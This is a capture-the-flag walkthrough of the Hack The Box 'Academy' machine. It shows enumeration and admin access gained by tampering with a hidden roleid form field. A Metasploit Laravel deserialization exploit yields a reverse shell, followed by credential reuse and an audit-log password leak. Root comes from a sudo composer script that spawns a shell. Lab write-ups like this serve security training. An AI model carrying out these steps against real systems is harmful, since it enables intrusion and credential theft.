







# Academy (Linux)

## Enumeration

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The nmap output already says "Did not follow redirect to http://academy.htb". So let's add the name to our /etc/hosts file, before we start enumeration the webserver.

### Examine Port 80 - Apache Webserver



We see the homepage of HTB Academy. It has a login and register functionality. But first, let's run gobuster to see if we can find some directories or interesting files:

```
$ gobuster dir -u academy.htb -w /usr/share/wordlists/dirb/big.txt -x php

/admin.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/server-status (Status: 403)
```

Let's check them one by one:

Admin.php: login page


Config.php: blank for now - probably interesting once we have access to the server


Home.php - forwards to Login.php: Another login page


Register.php - Registration form



So let's try to create an account. I used some random value for it. A habbit of mine is to always have Burpsuite in the background, to check some requests. Especially if they are related to registration or login. Intercepting the request with Burpsuite we see following:

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://academy.htb
DNT: 1
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=blm6cuvmr17s6guk92pik7fcs3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=test2&password=test2&confirm=test2&roleid=0
```

You see that roleid? That's weird isnt it? 

```html
               <td class="form_text" align="left"><br/>&nbsp;&nbsp;&nbsp;Repeat Password</td>
                <tr/>
                <tr>
                    <td align="right"><input class="input" size="40" type="password" id="confirm" name="confirm" /></td>
                </tr>
                <input type="hidden" value="0" name="roleid" />
```

It's a hidden field in the form. I immediately thought about increasing that roleid to 1 and to try my account for the admin login, as I might be lucky and can control the role of my user with it. And indeed! That works.



On the TODO list it states two strings "cry0l1t3 / mrb3n", which seem to be either passwords or usernames and the task "Fix issue with dev-staging-01.academy.htb". Probably a subdomain of the box. Let's add it to the `/etc/hosts` file and inspect the website.

## Gaining an Initial Foothold



It seems to be some kind of logging service. Scrolling through the logs, we can see some SQL credentials (`homestead:secret`). Let's note them down. Maybe we will need them later.

Scrolling further down, we can see the application name. Apparently it's a Laravel application. 

Hm, never heard of it. Let's do some research on it

*Laravel is a web application framework with expressive, elegant syntax. Laravel attempts to take the pain out of development by easing common tasks used in the majority of web projects, such as authentication, routing, sessions, and caching.* (https://laravel.com/docs/4.2/introduction)

A quick google search on Laravel vulnerabilities/exploits reveal a metasploit module `PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)`

*This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.*

So, for the exploit we only need the APP_KEY. We have seen this one before! It's contained in the log output! 

Fire up msfconsole, use the module and configure it like this:



Now start the exploit and we get a reverse shell!

```
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Command shell session 3 opened (10.10.14.26:4444 -> 10.129.83.160:38564) at 2021-01-22 17:00:18 +0100
[*] Command shell session 4 opened (10.10.14.26:4444 -> 10.129.83.160:38566) at 2021-01-22 17:00:18 +0100

hostname && id
academy
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The first thing that we can now check is the `.env` file of the Laravel application. It's located in `/var/www/html/academy`.

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Here we see a password. However, we cannot connect to the database with it. So I went to the home directory and tried to login with every user using this password. This was successful with the user `cry0l1t3`. His/Her home directory also contains the user.txt file!

## Privilege Escalation

### User cry0l1t3

linpeas tells us that there the audit log files that are only readable by us (adm group) and root. So this is usually a strong hint. So let's check them out.

*The Linux Audit framework is a kernel feature (paired with userspace tools) that can log system calls. For example, opening a file, killing a process or creating a network connection. These audit logs can be used to monitor systems for suspicious activity*

So let's see if someone used `su` or `sudo` or some other commands that then require a password input from the user.

```
cry0l1t3@academy:/var/log/audit$ cat * | grep -E -i 'comm="sudo"|comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

The data looks like hex. Converting it results in `mrb3n_Ac@d3my!`. That's probably the password of the user `mrb3n`.

### User mrb3n

```
mrb3n@academy:~$ hostname && id
academy
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

Again we run linpeas. Nothing found. 
So we check the sudoers list. This time we are able to run `composer` as sudo!
A quick look onto [GTFObins](https://gtfobins.github.io/gtfobins/composer/), reveals that it can be exploited to gain root access. 
So let's follow it step by step:

First: (creates a random directory in /tmp)
```
TF=$(mktemp -d)
```
Then: (creates a json file containing a scripts object)
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
```
And finally: (run composer as root to executing the script)
```
sudo composer --working-dir=$TF run-script x
```

And we are root!
```
root@academy:/tmp/tmp.BCWVFCDOXp# hostname && id
academy
uid=0(root) gid=0(root) groups=0(root)
```


